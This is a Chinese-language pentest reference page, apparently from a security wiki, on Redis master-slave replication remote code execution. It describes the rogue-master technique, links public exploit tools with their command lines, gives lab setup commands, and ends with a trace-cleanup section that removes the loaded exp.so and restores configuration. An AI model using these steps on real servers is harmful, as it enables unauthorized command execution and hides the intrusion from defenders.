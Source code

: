 
## 主从复制远程代码执行漏洞

**漏洞描述**

先创建一个恶意的 Redis 服务器作为 Redis 主机 (master)，该 Redis 主机能够回应其他连接他的 Redis 从机的响应。有了恶意的 Redis 主机之后，就会远程连接目标 Redis 服务器，通过 slaveof 命令将目标 Redis 服务器设置为我们恶意 Redis 的 Redis 从机(slaver)。然后将恶意 Redis 主机上的 exp 同步到 Reids 主机上，并将 dbfilename 设置为 exp.so。最后再控制 Redis 从机（slaver）加载模块执行系统命令即可

补充 : redis 4.0.0 版本开始才支持 module load

**相关文章**
- [Redis 基于主从复制的 RCE 利用方式](https://paper.seebug.org/975/)
- [Redis主从复制RCE影响分析](https://mp.weixin.qq.com/s/YPLnYWsBMAYij7wXHVpodg) - 介绍了 redis 主从 rce 后如何恢复的方法，可以学习一下

**POC | Payload | exp**
- [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server) - 该工具无法对 Redis 密码进行 Redis 认证，也就是说该工具只能在目标存在 Redis 未授权访问漏洞时使用。如果存在密码是不能使用的
    ```bash
    python3 redis-rogue-server.py --rhost rhost --lhost lhost
    ```
- [Ridter/redis-rce](https://github.com/Ridter/redis-rce)
    ```bash
    python3 redis-rce.py -r rhost -L lhost -f exp.so -a password
    ```
- [n0b0dyCN/RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)
- [0671/RedisModules-ExecuteCommand-for-Windows](https://github.com/0671/RedisModules-ExecuteCommand-for-Windows)
- [LoRexxar/redis-rogue-server](https://github.com/LoRexxar/redis-rogue-server)
- [No-Github/redis-rogue-server-win](https://github.com/No-Github/redis-rogue-server-win) - Redis 4.x & 5.x RCE
- [r35tart/RedisWriteFile](https://github.com/r35tart/RedisWriteFile) - 通过 Redis 主从写出无损文件
- [Dliv3/redis-rogue-server](https://github.com/Dliv3/redis-rogue-server)
- [0671/RabR](https://github.com/0671/RabR)

**搭建环境**
```bash
yum install -y tcl
wget download.redis.io/releases/redis-4.0.11.tar.gz
tar zxf redis-4.0.11.tar.gz
cd redis-4.0.11
make PREFIX=/usr/local/redis install

/usr/local/redis/bin/redis-server
```

**痕迹清除**

在攻击之前将数据库原本的配置信息进行备份，攻击完成后，清除痕迹，恢复目录和数据库文件，同时卸载，删除模块
```bash
CONFIG get *    # 获取所有的配置
CONFIG get dir   # 获取 快照文件 保存的 位置
CONFIG get dbfilename   # 获取 快照文件 的文件名
```
```bash
# 切断主从，关闭复制功能
slaveof no one
# 恢复目录
config set dir /data
# 通过 dump.rdb 文件恢复数据
config set dbfilename dump.rdb
# 删除 exp.so
system.exec 'rm ./exp.so'
# 卸载 system 模块的加载
module unload system
```
